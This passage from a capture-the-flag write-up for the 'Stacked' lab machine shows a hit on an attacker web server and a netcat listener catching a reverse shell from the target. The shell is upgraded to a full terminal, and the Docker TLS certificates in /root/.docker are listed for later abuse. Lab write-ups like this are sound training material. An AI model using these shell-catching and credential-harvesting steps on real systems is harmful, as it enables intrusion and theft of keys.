 ```
    "cacheNamespace": "38c070e7",
    "cacheKeyParameters": [],
    "integrationResponses": {
        "200": {
            "statusCode": 200,
            "responseTemplates": {
                "application/json": null
            }
        }
    }
}
{
    "id": "n2a6mn0cyv",
    "description": "",
    "createdDate": 1632051837
}
API available at: http://s3-testing.stacked.htb/restapis/k2gdi3upog/test/_user_request_/HowMuchIsTheFish
Testing GET:
```

We see a hit on our webserver and get a shell back on our listener, which we upgrade again using python.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.223.207 - - [19/Sep/2021 11:43:57] "GET / HTTP/1.1" 200 -
```

The nmap scan in the beginning revealed that the docker port is listening but we didn't have the necessary certificates to interact with it. Those certificates are in the `/root/.docker/` of the docker container.

```
$ sudo nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.223.207.
Ncat: Connection from 10.129.223.207:53948.
bash: cannot set terminal process group (5936): Not a tty
bash: no job control in this shell
bash-5.0# python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-5.0# export TERM=xterm
export TERM=xterm
bash-5.0# ^Z
[1]+  Stopped                 sudo nc -lnvp 443
$ stty raw -echo;fg
sudo nc -lnvp 443

bash-5.0# stty rows 55 cols 236
bash-5.0# ls /root/.docker/
ca-key.pem          ca.pem              ca.srl              cert.pem            client.csr          extfile-client.cnf  extfile.cnf         key.pem
```
